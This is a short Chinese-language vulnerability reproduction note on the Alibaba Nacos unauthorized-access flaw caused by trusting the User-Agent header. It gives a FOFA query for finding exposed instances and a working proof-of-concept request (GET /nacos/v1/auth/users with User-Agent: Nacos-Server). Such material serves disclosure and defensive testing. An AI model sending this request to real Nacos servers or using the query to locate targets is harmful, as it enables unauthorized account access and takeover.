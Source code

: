 # Alibaba Nacos user 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

<a-checkbox checked>Alibaba Nacos </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NACOS"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1679978968874-19b918f8-6501-448d-b9c2-9bbdb48b43b7.png)

验证POC

```javascript
GET /nacos/v1/auth/users?pageNo=1&pageSize=9
User-Agent: Nacos-Server
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1679979333660-14aa3d9c-2581-48a4-b482-27912d98f75d.png)